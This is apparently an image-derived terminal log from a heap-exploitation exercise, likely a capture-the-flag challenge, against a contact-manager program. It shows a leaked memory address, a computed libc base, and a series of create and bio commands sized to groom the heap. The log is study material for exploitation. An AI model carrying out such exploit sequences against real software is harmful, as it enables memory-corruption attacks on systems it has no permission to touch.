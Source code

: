 ```
Leaked Addr: 0x7F1DDDF36B78
LIBC ADDR: 0x7f1dddb72000
Enter your command:
>
create junk1
Created contact "junk1"

Enter your command:
>
create junk2
Created contact "junk2"

Enter your command:
>
create junk3
Created contact "junk3"

Enter your command:
>
create c
Created contact "c"

Enter your command:
>
create d
Created contact "d"

Enter your command:
>
create e
Created contact "e"

Enter your command:
>
create f
Created contact "f"

Enter your command:
>
create g
Created contact "g"

Enter your command:
>
bio b
How long will the bio be?
b'103'
Enter your new bio:
Bio recorded.

Enter your command:
>
bio c
How long will the bio be?
b'103'
Enter your new bio:
Bio recorded.

Enter your command:
>
bio b
How long will the bio be?
b'300'
```
